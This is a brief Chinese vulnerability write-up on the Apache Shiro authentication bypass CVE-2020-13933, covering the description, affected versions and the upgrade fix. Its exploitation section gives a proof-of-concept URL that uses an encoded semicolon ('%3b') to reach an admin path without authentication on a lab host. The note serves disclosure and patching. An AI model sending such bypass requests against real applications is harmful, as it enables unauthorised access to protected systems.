 ### 一 漏洞名
Apache Shiro 身份验证绕过漏洞(CVE-2020-13933) 

Apache Shiro < 1.6.0

### 二 漏洞描述
Apache Shiro是一个强大且易用的Java安全框架,执行身份验证、授权、密码和会话管理。一般作为spring鉴权模块。  
由于shiro在处理url时与spring仍然存在差异，依然存在身份校验绕过漏洞由于处理身份验证请求时出错，远程攻击者可以发送特制的HTTP请求，绕过身份验证过程并获得对应用程序的未授权访问。  

### 三 漏洞利用
![img_1.png](img_1.png)
![img.png](img.png)

```http://192.168.1.9:8080/srpingboot-shiro-0.0.1-SNAPSHOT/admin/%3bpage``` 构造poc请求指定资源，不触发身份验证，绕过权限访问接口

### 四 漏洞修复
更新 Apache Shiro >= 1.6.0

> 参考链接  https://www.cnblogs.com/backlion/p/14055278.html?ivk_sa=1024320u
